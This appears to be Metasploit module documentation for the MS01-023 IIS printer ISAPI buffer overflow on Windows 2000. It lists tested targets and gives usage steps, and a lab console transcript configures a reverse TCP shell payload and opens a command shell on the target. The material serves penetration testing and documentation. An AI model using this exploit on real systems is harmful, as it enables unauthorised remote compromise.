 ## Vulnerable Application

This exploits a buffer overflow in the request processor of the
Internet Printing Protocol ISAPI module in IIS. This module
works against Windows 2000 Server and Professional SP0-SP1.

If the service stops responding after a successful compromise,
run the exploit a couple more times to completely kill the
hung process.

This module has been tested successfully on:

* Windows 2000 Professional SP0 (Dutch)
* Windows 2000 Professional SP0 (Finnish)
* Windows 2000 Professional SP0 (Greek)
* Windows 2000 Professional SP0 (Korean)
* Windows 2000 Professional SP0 (Turkish)
* Windows 2000 Professional SP1 (Arabic)
* Windows 2000 Professional SP1 (Czech)
* Windows 2000 Professional SP1 (English)
* Windows 2000 Professional SP1 (Greek)
* Windows 2000 Server SP0 (Chinese)
* Windows 2000 Server SP0 (Dutch)
* Windows 2000 Server SP0 (English)
* Windows 2000 Server SP0 (German)
* Windows 2000 Server SP0 (Hungarian)
* Windows 2000 Server SP0 (Italian)
* Windows 2000 Server SP0 (Portuguese)
* Windows 2000 Server SP0 (Spanish)
* Windows 2000 Server SP0 (Turkish)
* Windows 2000 Server SP1 (English)
* Windows 2000 Server SP1 (French)
* Windows 2000 Server SP1 (Swedish)

## Verification Steps

1. `use exploit/windows/iis/ms01_023_printer`
1. `set RHOSTS [IP]`
1. `show targets` to see the possible targets
1. `set TARGET [TARGET]`
1. `set PAYLOAD windows/shell/reverse_tcp`
1. `set LHOST [IP]`
1. `run`

## Options


## Scenarios

### Windows 2000 Professional SP1 (EN)

```
msf > use exploit/windows/iis/ms01_023_printer
[*] Using configured payload windows/shell/reverse_tcp
msf exploit(windows/iis/ms01_023_printer) > set rhosts 192.168.200.195
rhosts => 192.168.200.195
msf exploit(windows/iis/ms01_023_printer) > check
[*] 192.168.200.195:80 - The target appears to be vulnerable.
msf exploit(windows/iis/ms01_023_printer) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows 2000 SP0-SP1 (Arabic)
   1   Windows 2000 SP0-SP1 (Czech)
   2   Windows 2000 SP0-SP1 (Chinese)
   3   Windows 2000 SP0-SP1 (Dutch)
   4   Windows 2000 SP0-SP1 (English)
   5   Windows 2000 SP0-SP1 (French)
   6   Windows 2000 SP0-SP1 (Finnish)
   7   Windows 2000 SP0-SP1 (German)
   8   Windows 2000 SP0-SP1 (Korean)
   9   Windows 2000 SP0-SP1 (Hungarian)
   10  Windows 2000 SP0-SP1 (Italian)
   11  Windows 2000 SP0-SP1 (Portuguese)
   12  Windows 2000 SP0-SP1 (Spanish)
   13  Windows 2000 SP0-SP1 (Swedish)
   14  Windows 2000 SP0-SP1 (Turkish)
   15  Windows 2000 Pro SP0 (Greek)
   16  Windows 2000 Pro SP1 (Greek)


msf exploit(windows/iis/ms01_023_printer) > set target 4
target => 4
msf exploit(windows/iis/ms01_023_printer) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(windows/iis/ms01_023_printer) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf exploit(windows/iis/ms01_023_printer) > run

[*] Started reverse TCP handler on 192.168.200.130:4444
[*] Using target: Windows 2000 SP0-SP1 (English) ...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.200.195
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.195:1168) at 2022-07-08 11:07:42 -0400


Shell Banner:
Microsoft Windows 2000 [Version 5.00.2195]
-----


C:\WINNT\system32>ver
ver

Microsoft Windows 2000 [Version 5.00.2195]
```
